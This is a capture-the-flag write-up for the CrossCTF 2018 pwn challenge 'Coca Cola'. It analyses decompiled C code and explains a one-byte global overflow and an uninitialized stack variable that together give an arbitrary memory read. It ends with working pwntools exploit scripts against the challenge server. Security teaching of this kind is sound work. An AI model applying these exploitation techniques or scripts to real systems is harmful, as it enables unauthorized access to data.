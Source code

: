 # CrossCTF Finals 2018 : Coca Cola (Pwn)
### First Blood by : TinyBoxer

>Catch the Wave. Coke!
>
>nc ctf.pwn.sg 4001
>
>Creator - amon (@nn_amon)

## Static Analysis
Running ```file cocacola``` gives:
```
cocacola: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=76986b77e7025662406398594dd7c100f7e35c16, not stripped
```

Now on to the code ...
``` c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int result; // eax
  __off_t v5; // rsi
  int fd; // [rsp+Ch] [rbp-B4h]
  struct stat stat_buf; // [rsp+20h] [rbp-A0h]
  unsigned __int64 v8; // [rsp+B8h] [rbp-8h]

  v8 = __readfsqword(0x28u); // these are canaries btw
  setvbuf(stdin, 0LL, 2, 0LL); //disallows buffering
  setvbuf(stdout, 0LL, 2, 0LL);//disallows buffering
  setvbuf(stderr, 0LL, 2, 0LL);//disallows buffering
  v3 = time(0LL);
  srand(v3); //initalize random seed
  fd = open("flag_page", 0, 384LL);
  memset(&stat_buf, 0, sizeof(stat_buf));
  if ( fstat(fd, &stat_buf) == -1 )
  {
    perror("Error getting the file size");
    result = -1;
  }
  else
  {
    v5 = stat_buf.st_size;
    mmap((void *)0x700B1000, stat_buf.st_size, 1, 1, fd, 0LL);
    printf("Do you want to flip the flag switch? (y/n) ");
    __isoc99_scanf((__int64)"%2s", (__int64)&flag);
    coca();
    cola();
    puts("Did you get it? If not try again.");
    result = 0;
  }
  return result;
}
```

The program opens a file called ```flag_page```. It clears out a ```stat_buf``` region of memory, then uses as a ```stat``` struct when ```fstat(fd, &stat_buf)``` is called. If ```fstat``` succeeds, ```mmap(0x700B100, stats_buf.size, 1, 1, fd, 0)``` is called.

Looking at [mmap documentation](http://man7.org/linux/man-pages/man2/mmap.2.html), we see that the two ```1```s that are in the earlier mmap call are for the ```prot``` and ```flags``` arguments. However, note that for the ```fd``` argument, we are passing ```flag_page```'s fd, intending to copy the file content into our allocated memory.

Next, it asks us about flipping flag switches (to which the answer is not ```y```, as we will see later). It reads in 2 bytes into the ```flag``` global variable then proceeds to call ```coca()``` and then ```cola()```

```c
unsigned __int64 coca()
{
  char buf; // [rsp+0h] [rbp-110h]
  unsigned __int64 v2; // [rsp+108h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts(art);
  read(0, &buf, 0xFFuLL);
  if ( flag_denied == 0xC5u )
    read(0, &something, 1uLL);
  return __readfsqword(0x28u) ^ v2;
}
```

We begin by printing some pretty art, after which we read in 255 bytes into memory. Checking the offsets, we see that there is no overflow here. Next, a global variable ```flag_denied``` is compared to ```0xc5```, and if it equal we read 1 byte into ```something```, another global variable.

```c
unsigned __int64 cola()
{
  int v0; // eax
  signed __int64 v2; // [rsp+0h] [rbp-60h]
  signed __int64 v3; // [rsp+8h] [rbp-58h]
  __int64 v4; // [rsp+10h] [rbp-50h]
  __int64 v5; // [rsp+18h] [rbp-48h]
  __int64 v6; // [rsp+20h] [rbp-40h]
  __int64 v7; // [rsp+28h] [rbp-38h]
  __int64 v8; // [rsp+30h] [rbp-30h]
  int v9; // [rsp+38h] [rbp-28h]
  __int16 v10; // [rsp+3Ch] [rbp-24h]
  const char *v11; // [rsp+48h] [rbp-18h]
  unsigned __int64 v12; // [rsp+58h] [rbp-8h]

  v12 = __readfsqword(0x28u);
  v0 = rand();
  v3 = v0
     - 10000000000LL
     * (((signed __int64)((unsigned __int128)(0x36F9BFB3AF7B757LL * (signed __int128)v0) >> 64) >> 27)
      - ((signed __int64)v0 >> 63))
     + 1;
  if ( something )
  {
    v2 = '\x137';
    strcpy(v4, "Limited Edition Coca Cola - Product of Mexico");
    v11 = (__int64)"Invalid internal error.";
  }
  puts("Here's your randomly generated coke can!");
  printf("Version: V.%lu\n", v2, v2);
  printf("Serial Number: %lu\n", v3);
  printf("Title: %s\n", &v4);
  if ( flag == 0x44 && v11 )
  {
    puts("Errors were found.");
    printf("Error: %s\n", v11);
  }
  return __readfsqword(0x28u) ^ v12;
}
```

In this method, we get a random number then do some math to get produce another value, then save it into ```v3```. If ```something``` is true, we initalize variables ```v2```, ```v4``` and ```v11```. Note that ```v11``` has a pointer to some string, not the string itself. Next, we print out some info, then check if the ```flag``` variable is ```0x44``` and if ```v11``` isn't ```NULL```, and print ```v11``` out in a ```print("Error: %s\n")```.

## Solution
We see that if ```something``` is ```0```, when we print out info in ```cola()```, it prints out values that are uninitialized. Usually, these are values from the previous function call that is made at the same 'level' as the current function (e.g main->coca is on the same 'level' as main->cola but main->cola is not on the same 'level' as main->cola->puts). That function is ```coca()```, based on main()'s code. If we look at the ```read(0, &buf, 0xff)```, we see that it reads 0xff bytes into buf, which is at rbp-0x110. All the variables in ```cola()``` are from rbp-0x60 onwards, so we can see that we can control all the variables in ```cola``` except ```v0```, ```v3``` and ```v12```. Note that ```cola()``` prints out v11 in ```printf("Error: %s\n", v11)```, interpreting it as a string, as long as ```flag``` is ```0x44```. Thus, we can print out arbitrary memory since we can control v11! We can even print out the contents of ```flag_page``` by setting v11 to ```0x700B1000```

So far, we need to set ```flag``` to ```0x44```, ```something``` to 0, and we also need to set ```v11``` to ```0x700B10000``` (this can be done in ```coca()```'s ```read(0, &buf, 0xff)```)

Checking the program, we see that something is actually 1 by default
```c
.data:00000000002117F8 something       db    1
```
The only place we can change ```something``` is in ```coca()```:
```
if ( flag_denied == 0xC5u )
    read(0, &something, 1uLL);
```
and it seems we need to set ```flag_denied``` to ```0xc5``` first. However, ```flag_denied``` is ```0``` by default, and there is no other place where it is set:
```
.bss:00000000002117FD                 public flag
.bss:00000000002117FD flag            db    ? ;               ; DATA XREF: cola+12E↑o
.bss:00000000002117FD                                         ; main+14A↑o
.bss:00000000002117FE                 public flag_denied
.bss:00000000002117FE flag_denied     db    ? ;               ; DATA XREF: coca+42↑o
.bss:00000000002117FF                 db    ? ;
```
Hold on, dont we read 2 bytes into ```flag``` in ```main()```? Here it says that ```flag``` is only 1 byte (Note the addresses in left. My tool repeats addresses when delivering information to give .. more information). Thus, we have a overflow, and we can write 1 byte into ```flag_denied```.

So far, the plan is:
Set ```flag``` and ```flag_denied``` to 0x44 and 0xc5 respectively, by sending ```\x44\xc5``` to ```__isoc99_scanf((__int64)"%2s", (__int64)&flag);``` in ```main()```.

Then, set v11 (at rbp-0x18) to ```0x700B1000``` in ```read(0, &buf, 0xff)``` in ```coca()``` (buf is rbp-0x110, so we have 0x110-0x18 = 0xf8 characters of padding).
</br>Thus, we send ```'a'*0xf8+p64(0x700B1000+i*32)[:-1]```. The ```[:-1]``` is to leave out the last character, as p64() gives 8 bytes but we can only afford to send 7 bytes (0ff-0f8 = 7). 

Next, we send ```\x00``` to ```read(0, &something, 1)```

Putting it all together:
```python
from pwn import *
p = remote('ctf.pwn.sg', 4001)

p.sendafter("Do you want to flip the flag switch? (y/n) ", '\x44\xC5')
p.send('a'*0xf8+p64(0x700B1000)[:-1])
p.send('\x00')
p.recvuntil('Error: ')
print(p.recvline())
```

However ... we get 'CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC', which isn't the flag, obviously. But 'C' is the first letter of the flag that we expect. Perhaps the file has null bytes that force printf() to stop printing, and the each character of the flag is repeated as above, followed by a null byte? This, along with the ```puts("Did you get it? If not try again.");``` in ```main()``` imply that we have to repeat our exploit for each character in the flag (we also need to offset our value to v11 by 32*i, where i is the index of the character).
<br/>Since we don't know how long the flag is, we just repeat our exploit, for example, 50 times and print what we have so far if the program segfaults early.
```python
from pwn import *
 
s = ''
  
for i in range(50):
    try:
        p = remote('ctf.pwn.sg', 4001)
  
        p.sendafter("Do you want to flip the flag switch? (y/n) ", '\x44\xC5')
        p.send('a'*0xf8+p64(0x700B1000+i*32)[:-1])
        p.send('\x00')
        p.recvuntil('Error: ')
        s += p.recv(1)
    except:
        break
print(s)
```